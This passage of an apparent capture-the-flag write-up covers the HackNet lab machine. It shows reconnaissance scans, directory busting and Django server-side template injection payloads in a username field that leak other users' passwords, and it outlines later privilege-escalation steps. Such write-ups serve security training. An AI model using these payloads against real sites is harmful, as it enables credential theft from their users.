

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
        - [Directory Busting](#Directory-Busting)
- [Initial Access](#Initial-Access)
    - [Server-Side Template Injection (SSTI)](#Server-Side-Template-Injection-SSTI)
    - [Privilege Escalation to deepdive](#Privilege-Escalation-to-deepdive)
- [Privilege Escalation to backdoor_bandit](#Privilege-Escalation-to-backdoor_bandit)
- [user.txt](#usertxt)
- [Enumeration (mikey)](#Enumeration-mikey)
- [Privilege Escalation to sandy](#Privilege-Escalation-to-sandy)
    - [CVE-2021-33026: Django Remote Code Execution (RCE) through Insecure Deserialization](#CVE-2021-33026-Django-Remote-Code-Execution-RCE-through-Insecure-Deserialization)
- [Enumeration (sandy)](#Enumeration-sandy)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Attacking GNU Privacy Guard (GPG) Encryption Key](#Attacking-GNU-Privacy-Guard-GPG-Encryption-Key)
        - [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
    - [Decrypting the Database Backup](#Decrypting-the-Database-Backup)
    - [Shell as root](#Shell-as-root)
- [root.txt](#roottxt)

## Summary

The box starts with a `web application` running on port `80/TCP` which is build on the `Django Framework`. This information can be obtained by looking into `.css` files which can be found using `Directory Busting`. Besides this information the website offers to `register` and `login` with a new user. The platform itself is themed around a `social network` for `hackers` and `cybersecurity enthusiasts`. This brings additional functionality like `posting comments`, `liking comments`, having `private profiles` and `adding` other `people` as `contacts`.

First part of the `Foothold` can be achieved by using `payloads` for `Server-Side Template Injection (SSTI)` in the `username` field. This lead to information leakage like the users `email` and `password` for all the `users` who `liked` a `comment` anywhere on the platform as long as it can be accessed. This enables `Privilege Escalation` to other users on the platform. 

Through this `Privilege Escalation` of one of those users who uses a `private profile` allows to `add` a `user` under control to his `contacts`. Repeating the initial exploitation allows to see his `private comment` and the `user` who `liked` it. This leads to the `email` and `password` of this `user` and access to the box via `SSH`.

After obtaining the `user.txt` and performing basic `Enumeration` another user on the box can be found as well as a hint for `CVE-2021-33026` which describes a `Remote Code Execution (RCE)` vulnerability through `Insecure Deserialization` in the underlying `cache function` of `Django` related to the `django_cache` folder.

After performing the `Privilege Escalation` by exploiting the vulnerability access to the new user allows to abuse his `group memberships` to access a folder inside the `web root` containing `encrypted database dumps` using `GNU Privacy Guard (GPG)`.

As last step all what is left to do is to export the `GPG Private Key`, `crack` the `hash` using `John the Ripper` and access the `database dumps` to find the `password` for `root`.

## Reconnaissance

### Port Scanning

As usual we started with our initial `port scan` using `Nmap`. Not very unusual was that we only found port `22/TCP` and port `80/TCP` to be open.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.115.19 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 21:01 CEST
Nmap scan report for 10.129.115.19
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.21 seconds
```

We took a closer look on each of the ports and added the `redirect` of the `web server` to `http://hacknet.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 22,80 10.129.115.19    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 21:01 CEST
Failed to resolve "22,80".
Nmap scan report for 10.129.115.19
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.115.19   hacknet.htb
```

### Enumeration of Port 80/TCP

After that we accessed the `web application` running on port `80/TCP`. The website offered us the option to `register` and to `login` on some sort of `social network` for `hackers` and `cybersecurity enthusiasts`.

- [http://hacknet.htb/](http://hacknet.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://hacknet.htb/
http://hacknet.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.22.1], IP[10.129.115.19], JQuery[3.7.1], Title[HackNet - social network for hackers], UncommonHeaders[x-content-type-options,referrer-policy,cross-origin-opener-policy], X-Frame-Options[DENY], nginx[1.22.1]
```


After we created a dummy account we logged in to the web application.


Within our `profile` we found options to `update` our `avatar` by uploading a picture, `changing` our `username`, `bio`, `profile visibility` as well as `2FA`.



We created a second user to play around with the social media portion of the web application which allowed us to `request` other `users` as `contacts`.


We tried to request not only our second user as contact, we also were able to add our first account to itself as contact. The simplest way of making friends.

```shell
GET /contacts?action=request&userId=27 HTTP/1.1
Host: hacknet.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hacknet.htb/profile/7
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
HTTP/1.1 302 Found
Server: nginx/1.22.1
Date: Sat, 13 Sep 2025 19:38:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Location: http://hacknet.htb/profile/7
X-Frame-Options: DENY
Vary: Cookie
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
Set-Cookie: sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s; expires=Sat, 27 Sep 2025 19:38:14 GMT; HttpOnly; Max-Age=1209600; Path=/; SameSite=Lax


```



#### Directory Busting

After we clicked through the whole platform real quick we started the approach of `Directory Busting` using `dirsearch` and `feroxbuster`.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://hacknet.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_hacknet.htb/__25-09-13_21-04-03.txt

Target: http://hacknet.htb/

[21:04:03] Starting: 
[21:04:17] 302 -    0B  - /comment  ->  /                                   
[21:04:18] 302 -    0B  - /contacts  ->  /                                  
[21:04:21] 302 -    0B  - /explore  ->  /                                   
[21:04:21] 404 -  555B  - /favicon.ico                                      
[21:04:27] 200 -  857B  - /login                                            
[21:04:27] 302 -    0B  - /logout  ->  /                                    
[21:04:28] 404 -  555B  - /media.tar                                        
[21:04:28] 301 -  169B  - /media  ->  http://hacknet.htb/media/             
[21:04:28] 404 -  555B  - /media.tar.gz                                     
[21:04:28] 404 -  555B  - /media.tar.bz2
[21:04:28] 404 -  555B  - /media.zip
[21:04:28] 404 -  555B  - /media/export-criteo.xml
[21:04:28] 404 -  555B  - /media_admin
[21:04:28] 403 -  555B  - /media/                                           
[21:04:29] 302 -    0B  - /messages  ->  /                                  
[21:04:35] 302 -    0B  - /post  ->  /                                      
[21:04:36] 302 -    0B  - /profile  ->  /                                   
[21:04:37] 200 -  948B  - /register                                         
[21:04:38] 302 -    0B  - /search  ->  /                                    
[21:04:42] 404 -  555B  - /static/api/swagger.yaml                          
[21:04:42] 404 -  555B  - /static/dump.sql
[21:04:42] 404 -  555B  - /static/api/swagger.json
                                                                             
Task Completed
```

We didn't get that much of spicy information back because of which we started looking into more common web related `file extensions` like `.css` and `.js`.

```shell
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://hacknet.htb/
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://hacknet.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       10l       21w      179c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://hacknet.htb/search => http://hacknet.htb/
200      GET       23l       56w      857c http://hacknet.htb/login
301      GET        7l       11w      169c http://hacknet.htb/media => http://hacknet.htb/media/
200      GET       22l       56w      667c http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/comment => http://hacknet.htb/
200      GET       67l      105w     7859c http://hacknet.htb/static/icon.png
302      GET        0l        0w        0c http://hacknet.htb/logout => http://hacknet.htb/
200      GET      928l     1570w    15786c http://hacknet.htb/static/style.css
200      GET       24l       63w      948c http://hacknet.htb/register
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       11w      169c http://hacknet.htb/static/admin => http://hacknet.htb/static/admin/
403      GET        7l        9w      153c http://hacknet.htb/static/
200      GET        2l     1262w    87533c http://hacknet.htb/static/jquery-3.7.1.min.js
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js => http://hacknet.htb/static/admin/js/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/css => http://hacknet.htb/static/admin/css/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/img => http://hacknet.htb/static/admin/img/
302      GET        0l        0w        0c http://hacknet.htb/contacts => http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/profile => http://hacknet.htb/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js/admin => http://hacknet.htb/static/admin/js/admin/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/fonts => http://hacknet.htb/static/admin/fonts/
302      GET        0l        0w        0c http://hacknet.htb/post => http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/messages => http://hacknet.htb/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js/vendor => http://hacknet.htb/static/admin/js/vendor/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/css/vendor => http://hacknet.htb/static/admin/css/vendor/
302      GET        0l        0w        0c http://hacknet.htb/explore => http://hacknet.htb/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/img/gis => http://hacknet.htb/static/admin/img/gis/
200      GET       20l      172w     1081c http://hacknet.htb/static/admin/img/LICENSE
[####################] - 61s   240008/240008  0s      found:26      errors:0      
[####################] - 61s    30000/30000   492/s   http://hacknet.htb/ 
[####################] - 41s    30000/30000   725/s   http://hacknet.htb/media/ 
[####################] - 41s    30000/30000   726/s   http://hacknet.htb/static/ 
[####################] - 41s    30000/30000   725/s   http://hacknet.htb/static/admin/ 
[####################] - 41s    30000/30000   724/s   http://hacknet.htb/static/admin/js/ 
[####################] - 41s    30000/30000   725/s   http://hacknet.htb/static/admin/css/ 
[####################] - 41s    30000/30000   725/s   http://hacknet.htb/static/admin/img/ 
[####################] - 42s    30000/30000   719/s   http://hacknet.htb/static/admin/fonts/
```

```shell
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://hacknet.htb/ -x css,js

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://hacknet.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [css, js]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       10l       21w      179c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       11w      169c http://hacknet.htb/media => http://hacknet.htb/media/
302      GET        0l        0w        0c http://hacknet.htb/search => http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/logout => http://hacknet.htb/
404      GET        7l       11w      153c http://hacknet.htb/media.css
302      GET        0l        0w        0c http://hacknet.htb/comment => http://hacknet.htb/
200      GET       67l      105w     7859c http://hacknet.htb/static/icon.png
200      GET       23l       56w      857c http://hacknet.htb/login
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l       63w      948c http://hacknet.htb/register
200      GET      928l     1570w    15786c http://hacknet.htb/static/style.css
200      GET        2l     1262w    87533c http://hacknet.htb/static/jquery-3.7.1.min.js
200      GET       22l       56w      667c http://hacknet.htb/
403      GET        7l        9w      153c http://hacknet.htb/static/
301      GET        7l       11w      169c http://hacknet.htb/static/admin => http://hacknet.htb/static/admin/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js => http://hacknet.htb/static/admin/js/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/css => http://hacknet.htb/static/admin/css/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/img => http://hacknet.htb/static/admin/img/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js/admin => http://hacknet.htb/static/admin/js/admin/
200      GET       61l      119w      958c http://hacknet.htb/static/admin/css/login.css
302      GET        0l        0w        0c http://hacknet.htb/contacts => http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/profile => http://hacknet.htb/
200      GET      534l     1025w     9090c http://hacknet.htb/static/admin/css/forms.css
301      GET        7l       11w      169c http://hacknet.htb/static/admin/fonts => http://hacknet.htb/static/admin/fonts/
200      GET      239l      854w     9141c http://hacknet.htb/static/admin/js/calendar.js
200      GET      184l      568w     6208c http://hacknet.htb/static/admin/js/core.js
200      GET      277l     1818w   156987c http://hacknet.htb/static/admin/fonts/Roboto-Bold-webfont.woff
200      GET      310l     1816w   155711c http://hacknet.htb/static/admin/fonts/Roboto-Light-webfont.woff
200      GET      299l     1867w   155908c http://hacknet.htb/static/admin/fonts/Roboto-Regular-webfont.woff
200      GET       20l       33w      423c http://hacknet.htb/static/admin/css/fonts.css
200      GET      603l     1180w    11800c http://hacknet.htb/static/admin/css/widgets.css
200      GET       56l      167w     1943c http://hacknet.htb/static/admin/js/theme.js
200      GET     1156l     2234w    21544c http://hacknet.htb/static/admin/css/base.css
302      GET        0l        0w        0c http://hacknet.htb/post => http://hacknet.htb/
302      GET        0l        0w        0c http://hacknet.htb/messages => http://hacknet.htb/
200      GET      204l      580w     8067c http://hacknet.htb/static/admin/js/actions.js
200      GET       76l      169w     2725c http://hacknet.htb/static/script.js
200      GET       29l       59w      441c http://hacknet.htb/static/admin/css/dashboard.css
301      GET        7l       11w      169c http://hacknet.htb/static/admin/css/vendor => http://hacknet.htb/static/admin/css/vendor/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/js/vendor => http://hacknet.htb/static/admin/js/vendor/
200      GET       30l       82w      978c http://hacknet.htb/static/admin/js/filters.js
200      GET      275l      537w     9114c http://hacknet.htb/static/admin/css/autocomplete.css
200      GET       33l       73w     1060c http://hacknet.htb/static/admin/js/autocomplete.js
302      GET        0l        0w        0c http://hacknet.htb/explore => http://hacknet.htb/
301      GET        7l       11w      169c http://hacknet.htb/static/admin/img/gis => http://hacknet.htb/static/admin/img/gis/
200      GET       29l       78w      884c http://hacknet.htb/static/admin/js/cancel.js
200      GET       43l      120w     1803c http://hacknet.htb/static/admin/js/collapse.js
200      GET       20l      172w     1081c http://hacknet.htb/static/admin/img/LICENSE
200      GET      302l      555w     4977c http://hacknet.htb/static/admin/css/rtl.css
200      GET      116l      384w     4530c http://hacknet.htb/static/admin/js/SelectBox.js
[####################] - 4m    720060/720060  0s      found:48      errors:0      
[####################] - 4m     90000/90000   414/s   http://hacknet.htb/ 
[####################] - 3m     90000/90000   570/s   http://hacknet.htb/media/ 
[####################] - 3m     90000/90000   570/s   http://hacknet.htb/static/ 
[####################] - 3m     90000/90000   569/s   http://hacknet.htb/static/admin/ 
[####################] - 3m     90000/90000   569/s   http://hacknet.htb/static/admin/js/ 
[####################] - 3m     90000/90000   570/s   http://hacknet.htb/static/admin/css/ 
[####################] - 3m     90000/90000   570/s   http://hacknet.htb/static/admin/img/ 
[####################] - 3m     90000/90000   566/s   http://hacknet.htb/static/admin/fonts/
```

Within the `base.css` we found an interesting hint about the tech stack. It seemed that it used `Django` which is a web framework that often is vulnerable to `Server-Side Template Injection (SSTI)`.

- [http://hacknet.htb/static/admin/css/base.css](http://hacknet.htb/static/admin/css/base.css)

```
┌──(kali㉿kali)-[~]
└─$ curl -s http://hacknet.htb/static/admin/css/base.css | head -n 3
/*
    DJANGO Admin styles
*/
```

## Initial Access
### Server-Side Template Injection (SSTI)

At this point we already spend a lot of time testing for various web vulnerabilities and now checked the repository of `PayloadsAllTheThings` for common `SSTI` payloads.

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#django](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#django)

Before we fired up very complex payloads we started simple by just looking if we were able to either render `{{7*7}}` of pull out some `usernames`.

```shell
{{users}}
```

We entered the payloads basically everywhere in every field we could find and also updated our own `username` to our `payloads`.


Now in order to trigger the payload we tried several different things. First of all we visited every page, clicked on every button and also `liked` a few of the `posts`.

```shell
GET /like/22 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/explore
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

The interesting part was when we tried to see who liked a post as well. This was the point when our `payload` got `triggered` and we received a list of `usernames` which also clicked on `like`.

```shell
GET /likes/22 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/explore
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
GET /likes/22 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/explore
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Sun, 14 Sep 2025 05:51:45 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: DENY
Vary: Cookie
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
Content-Length: 2080

<div class="likes-review-item"><a href="/profile/1"></a></div><div class="likes-review-item"><a href="/profile/3"></a></div><div class="likes-review-item"><a href="/profile/4"></a></div><div class="likes-review-item"><a href="/profile/5"></a></div><div class="likes-review-item"><a href="/profile/8"></a></div><div class="likes-review-item"><a href="/profile/10"></a></div><div class="likes-review-item"><a href="/profile/11"></a></div><div class="likes-review-item"><a href="/profile/13"></a></div><div class="likes-review-item"><a href="/profile/15"></a></div><div class="likes-review-item"><a href="/profile/17"></a></div><div class="likes-review-item"><a href="/profile/19"></a></div><div class="likes-review-item"><a href="/profile/21"></a></div><div class="likes-review-item"><a href="/profile/23"></a></div><div class="likes-review-item"><a href="/profile/24"></a></div><div class="likes-review-item"><a href="/profile/27"></a></div>
```



Now that we verified the `SSTI` vulnerability we moved a bit further and tried to `enumerate` through all of the `users` but this time, going for their `passwords`.

```shell
{{users.1.password}}
```

We repeated the previous steps and successfully `exfiltrated` the `password` of the `user` with the `ID` of `1`.

```shell
GET /likes/11 HTTP/1.1
Host: hacknet.htb
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://hacknet.htb/profile/10
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=RNUGDtwAqidorVsRu2bQdhIUwwjRuTak; sessionid=6qlu2p858e14juc1nlk70zvn2bitr46s
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Sun, 14 Sep 2025 05:55:29 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: DENY
Vary: Cookie
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
Content-Length: 1385

<div class="likes-review-item"><a href="/profile/1"></a></div><div class="likes-review-item"><a href="/profile/4"></a></div><div class="likes-review-item"><a href="/profile/5"></a></div><div class="likes-review-item"><a href="/profile/6"></a></div><div class="likes-review-item"><a href="/profile/7"></a></div><div class="likes-review-item"><a href="/profile/9"></a></div><div class="likes-review-item"><a href="/profile/12"></a></div><div class="likes-review-item"><a href="/profile/15"></a></div><div class="likes-review-item"><a href="/profile/16"></a></div><div class="likes-review-item"><a href="/profile/17"></a></div><div class="likes-review-item"><a href="/profile/21"></a></div><div class="likes-review-item"><a href="/profile/25"></a></div><div class="likes-review-item"><a href="/profile/27"></a></div>
```

| Password    |
| ----------- |
| Zer0D@yH@ck |

Now the questions was which `credentials` would give us access to the box? Within the user base we tried to figure out which user stood out. After some testing it was clear that the user `backdoor_bandit` never `liked` any of the `public` posts.

```shell
http://hacknet.htb/profile/22
```



We also noticed that the profile of `backdoor_bandit` and `deepdive` were marked as `private`.

